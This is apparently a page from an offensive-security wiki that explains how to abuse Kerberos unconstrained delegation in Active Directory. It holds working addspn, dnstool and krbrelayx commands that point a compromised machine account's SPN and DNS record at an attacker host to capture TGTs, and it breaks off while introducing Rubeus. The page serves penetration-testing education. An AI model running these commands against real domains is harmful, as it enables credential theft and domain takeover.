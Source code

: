 ## Practice

Some of the following parts allow to obtain modified or crafted Kerberos tickets. Once obtained, these tickets can be used with [Pass-the-Ticket](pass-the-ticket.md).

### Unconstrained Delegations

If a computer, with unconstrained delegations privileges, is compromised, an attacker must wait for a privileged user to authenticate on it \(or [force it](../coerced-authentications/)\) using Kerberos. The attacker service will receive a TGS containing the user's TGT. That TGT will be used by the service as a proof of identity to obtain access to a target service as the target user.

{% hint style="info" %}
Unconstrained delegation abuses are usually combined with the [PrinterBug](../coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug) or [PrivExchange](../coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to gain domain admin privileges.
{% endhint %}

{% tabs %}
{% tab title="From the attacker machine \(UNIX-like\)" %}
In order to abuse the unconstrained delegations privileges of a computer account, an attacker must add his machine to the SPNs of the compromised account and add a DNS entry for it.

This allows targets \(like Domain Controllers and Exchange servers\) to authenticate back to the attacker machine.

This can be done with [addspn](https://github.com/dirkjanm/krbrelayx), [dnstool](https://github.com/dirkjanm/krbrelayx) and [krbrelayx](https://github.com/dirkjanm/krbrelayx) \(Python\).

```bash
# Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
addspn.py -u 'DOMAIN\MachineAccont$' -p 'LMhash:NThash' -s 'HOST/attacker.DOMAIN_FQDN' --additional 'DomainController'

# Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
dnstool.py -u 'DOMAIN\MachineAccont$' -p 'LMhash:NThash' -r 'attacker.DOMAIN_FQDN' -d 'attacker_IP' --action add 'DomainController'

# Start the krbrelayx listener (the AES key is used by default by computer accounts to decrypt tickets)
krbrelayx.py -aesKey 'MachineAccount_AES_key'
```

Once the krbrelayx listener is ready, a [forced authentication attack](../coerced-authentications/) \(e.g. [PrinterBug](../coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange)\) can be operated. The listener will then receive an authentication, hence a TGS, containing a TGT.
{% endtab %}

{% tab title="From the compromised computer \(Windows\)" %}
Once the KUD capable host is compromised, [Rubeus](https://github.com/GhostPack/Rubeus) can be used \(on the compromised host\) as a listener to wait for a user to authenticate, the TGS to show up and to extract the TGT it contains.
